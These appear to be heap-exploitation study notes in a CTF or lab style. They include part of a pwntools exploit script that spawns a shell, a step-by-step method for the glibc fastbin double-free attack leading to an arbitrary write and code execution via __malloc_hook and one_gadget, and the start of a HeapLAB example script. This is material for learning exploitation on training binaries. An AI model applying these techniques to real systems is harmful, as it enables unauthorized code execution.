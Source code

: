 ```python
    malloc(24, p64(system))
    sla('>', '1')
    sla('size:', str(binsh))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = ELF(config["libc"])

    p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

## Fastbin Dupe: Tricking malloc into returning an already-allocated heap pointer by abusing the fastbin freelist to gain an arbitrary write primitive

**Requirements**
* Allocate chunks in fastbin size, `0x20 - 0x80`
* Ability to free chunks in any order
* Ability to forge or find fake chunk

**Arbitrary Write Primitive**  
_Assuming `target` is the address to be overwritten_
* Allocate 2 chunks, free them in alternating order: `free(1), free(0), free(1)`. This causes the `fd` pointer of the second chunk to link back to the first in the fastbin list.
* Forge a fake chunk somehow at `target - 16`, `target - 8` must hold chunk size equal to size of previous chunks.
* Allocate chunk, with `target - 16` as the data to overwrite the `fd` pointer in the fastbin list.
* Allocate 2 more chunks to free up fastbin list. Last address in the fastbin list will point to the fake chunk.
* Allocate chunk with data to be written to `target`.

**Gaining RCE using ret2libc**  
_This requires libc version to be known_
* Overwrite `__malloc_hook` using write primitive with `one_gadget`
    * Fake chunk can be found using `find_fake_fast &__malloc_hook` in `pwndbg`
    * Chunk size of all previous chunks must be same as chunk size in this fake chunk
    * As chunk is not allocated with alignment, data when overwriting becomes `padding + one_gadget`
* Call `malloc()`

**Example:** HeapLAB `fastbin_dup`
```python
from pwn import *

config = {"elf" : "./fastbin_dup"}

def malloc(size, data):
    sla('> ', '1')
    sla('size: ', str(size))
    sla('data: ', data)

def free(index):
    sla('> ', '2')
    sla('index: ', str(index))

```
